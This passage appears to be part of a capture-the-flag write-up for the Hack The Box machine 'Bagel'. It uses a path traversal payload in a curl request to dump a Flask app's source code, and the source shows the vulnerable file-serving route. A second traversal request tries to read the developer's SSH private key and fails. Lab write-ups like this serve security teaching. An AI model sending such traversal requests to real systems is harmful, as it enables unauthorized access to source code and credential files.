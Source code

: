 So the target is running a flask app with `python3 /home/developer/app/app.py`.  Let's take a look now we've identified the app entry point:

```bash
$curl "http://bagel.htb:8000/?page=../../../../../home/developer/app/app.py" --output -
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json

app = Flask(__name__)

@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)

@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```

This stood out: 

```# don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.```

But I wasn't able to read a private key for the `developer` user:

```bash
$curl "http://bagel.htb:8000/?page=../../../../../home/developer/.ssh/id_rsa" --output - 
File not found%       
```
